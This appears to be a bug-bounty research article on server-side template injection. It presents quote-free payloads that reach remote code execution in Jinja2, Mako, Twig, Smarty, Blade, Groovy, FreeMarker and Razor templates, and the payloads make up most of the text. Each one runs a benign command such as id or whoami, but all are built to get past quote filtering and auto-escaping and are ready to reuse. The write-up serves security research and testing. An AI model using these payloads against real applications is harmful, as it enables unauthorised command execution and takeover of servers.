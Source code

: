 

Limitations are just an illusion - advanced server-side template exploitation with RCE everywhere
August 27, 2024

##
#
https://www.yeswehack.com/learn-bug-bounty/server-side-template-injection-exploitation
#
##

server-side template injection
This article explains some novel techniques for exploiting server-side template injections (SSTIs) with complex, unique payloads that leverage default methods and syntax from various template engines. Even better, we will show how to do so without needing any quotation marks or extra plugins within the templates. All server-side template injection payloads detailed below can achieve remote code execution (RCE) on the target applications.

By default, many template engines have auto-escape enabled or perform HTML escape before the template rendering process. This sometimes makes our exploitation scenario much more difficult because of quote filtering used to render string-based data. Without string-based data in some form, RCE is significantly harder to achieve for some template engines, Twig being a notable example. For others, however, exploitation remains relatively simple even without the use of quotation marks. Our Jinja2 exploit was simplified, for instance, by the availability of the chr Python function.

Outline
Goal
Template engines
Exploitation and payload development
Jinja2
Mako
Twig
Smarty
Blade
Groovy
FreeMarker
Razor
Research roadmap
Acknowledgments
Goal
The goal of our research was simple: to create payloads for some of the most popular template engines with the impact being an RCE. The payloads should not rely on any resources, such as HTTP parameters, outside of the payload itself. Achieving this would ensure the payload works in as many exploitation scenarios as possible.

Template engines
Our research attempted to achieve a payload in relation to our goal on the following template engines:

Jinja2 (Python)
Mako (Python)
Twig (PHP)
Smarty (PHP)
Blade (PHP)
Groovy (Java)
FreeMarker (Java)
Razor (.NET)
Exploitation and payload development
As we said before, all payloads use only the default functions and methods from the template engine and don’t take advantage of any quotes or resources available outside the template engine itself, such as parameters in the HTTP request. Despite these limitations, all payloads can be used to achieved a RCE on an application vulnerable to a server-side template injection.

Jinja2
Jinja2, the default template engine used within Flask, is very powerful since it makes it possible to write and execute pure Python code.

To write a simple string, we can write this payload (note: index values may vary):

{{self.__init__.__globals__.__str__()[1786:1788]}}
The payload takes advantage of self.__init__.__globals__, which contains all global variables accessible to that function. This is then converted to a string with the help of the __str__ method. To build our string, we take advantage of index positions 1786 and 1788 from the converted __globals__ string, which finally returns the string: id.

We can now leverage this technique to build a payload that performs a remote code execution and runs system command id:

{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen(self.__init__.__globals__.__str__()[1786:1788]).read()}}
A similar payload structure can be used to exploit one of the Dojo challenges - Coffee Shop that used Jinja2 as it's template engine and filtered out all quotation marks.

Mako
Mako is another template engine compatible with Python and is used by default by Python frameworks Pyramid and Pylons.

In Mako, a payload such as the one below will generate the string id:

${str().join(chr(i)for(i)in[105,100])}
We can then use this crafted string within Python’s os.popen function to achieve RCE:

${self.module.cache.util.os.popen(str().join(chr(i)for(i)in[105,100])).read()}
Although you could also use a payload like the one below, it requires the use of "less-than" (&lt;) and "greater-than" (&gt;) characters – putting it outside the scope of our research objective:

<%import os%>${os.popen(str().join(chr(i)for(i)in[105,100])).read()}
Twig
Twig, the PHP template engine, was one of the most challenging template engines to find a working payload for. The biggest challenge of all was making a string from its built-in and default configurations.

Fortunately, I managed to craft a payload by leveraging the block feature and built-in _charset variable. Finally, I nested them together, which resulted in a successful payload:

{%block U%}id000passthru{%endblock%}{%set x=block(_charset|first)|split(000)%}{{[x|first]|map(x|last)|join}}
I also discovered an interesting payload that takes advantage of the built-in _context variable.

This payload allows you to achieve RCE if a template engine has performed a double rendering process.

{{id~passthru~_context|join|slice(2,2)|split(000)|map(_context|join|slice(5,8))}}
Smarty
In PHP template engine Smarty, we can take advantage of the chr function to generate a string based on the Hexadecimal value. We then use the variable modifier cat to concatenate our other generated chars and complete the string. The resulting string id is as follows:

{chr(105)|cat:chr(100)}
Similar to Twig, we can use the function passthru to execute our generated string and achieve RCE:

{{passthru(implode(Null,array_map(chr(99)|cat:chr(104)|cat:chr(114),[105,100])))}}
Blade
Blade is the default template engine for the Laravel framework. We can use the chr function to convert hexadecimal values to characters, insert the characters into an array map, and use implode to join all generated characters into a string.

The following code generates the string id that will be used in our final payload:

{{implode(null,array_map(chr(99).chr(104).chr(114),[105,100]))}}
Combined with the string generated from our previous payload, we can use passthru to execute the id command, which results in remote code execution:

{{passthru(implode(null,array_map(chr(99).chr(104).chr(114),[105,100])))}}
Groovy
Groovy is a Java-based template engine mainly used in the Grails framework. It’s a powerful engine. In Groovy, you can craft a string using either of the following methods:

${((char)105).toString()+((char)100).toString()}
Or:

${x=new String();for(i in[105,100]){x+=((char)i)}}
We can then use the execute function to run the resulting string-based command as a system command:

${x=new String();for(i in[105,100]){x+=((char)i).toString()};x.execute().text}
If you prefer the payload to have no spaces, you can always use a multi comment (/**/) as an alternative:

${x=new/**/String();for(i/**/in[105,100]){x+=((char)i).toString()};x.execute().text}${x=new/**/String();for(i/**/in[105,100]){x+=((char)i).toString()};x.execute().text}
FreeMarker
FreeMarker is a popular template engine used in Java-based applications and is supported by a variety of frameworks, including Spring and Apache struts.

Our efforts to generate a suitable string in FreeMarker led to the discovery of a pretty neat function: lower_abc. This function converts int based values into a string – but not in the way you might expect from functions such as chr in Python, as the documentation for lower_abc explains:


Converts 1, 2, 3, etc., to the string "a", "b", "c", etc. When reaching "z", it continues like "aa", "ab", etc. This is the same logic that you can see in column labels in spreadsheet applications (like Excel or Calc). The lowest allowed number is 1. There's no upper limit. If the number is 0 or less or it isn't an integer number then the template processing will be aborted with error.

So if you wanted a string that represents the letter "a", you could use the payload:

${1?lower_abc}
The string "aa", meanwhile, can be generated with the payload:

${27?lower_abc}
By using this method, you can build a string that can be used to create a payload such as the following, with the impact being RCE:

${(6?lower_abc+18?lower_abc+5?lower_abc+5?lower_abc+13?lower_abc+1?lower_abc+18?lower_abc+11?lower_abc+5?lower_abc+18?lower_abc+1.1?c[1]+20?lower_abc+5?lower_abc+13?lower_abc+16?lower_abc+12?lower_abc+1?lower_abc+20?lower_abc+5?lower_abc+1.1?c[1]+21?lower_abc+20?lower_abc+9?lower_abc+12?lower_abc+9?lower_abc+20?lower_abc+25?lower_abc+1.1?c[1]+5?upper_abc+24?lower_abc+5?lower_abc+3?lower_abc+21?lower_abc+20?lower_abc+5?lower_abc)?new()(9?lower_abc+4?lower_abc)}
Razor
Built into ASP.NET core, Razor is a powerful template engine that can run pure C# code. The ability to generate a string by taking full advantage of the C# programming language opens up a wide range of payload possibilities.

For instance, the following payload generates the string whoami:

@{string x=null;int[]l={119,104,111,97,109,105};foreach(int c in l){x+=((char)c).ToString();};}@x
If you then want to run this command as a system command, you can use @System.Diagnostics.Process.Start and replace _PROGRAM_ with the program type, such as cmd.exe, and replace _COMMAND_ with your generated string command:

@System.Diagnostics.Process.Start(_PROGRAM_,_COMMAND_);
Research roadmap
Achieving RCE in various popular template engines in this manner – with unique payloads that use only built-in methods/functions – shows just how much you can do with a program even when limited to using minimal resources.

There are still plenty of template engines that I personally have yet to investigate. For anyone interested in building on my research, I believe there are payloads following the same structure that could also achieve RCE in the template engines not covered here. I would say that is a good way to start.

Acknowledgments
A big thank you to the template Injection playground made by Hackmanit! They made the payload testing a lot easier!

Finally, I would like to thank the guys at SCH Tech for their research: RAZOR PAGES SSTI & RCE and James Kettle for his research on Server-Side Template Injection.
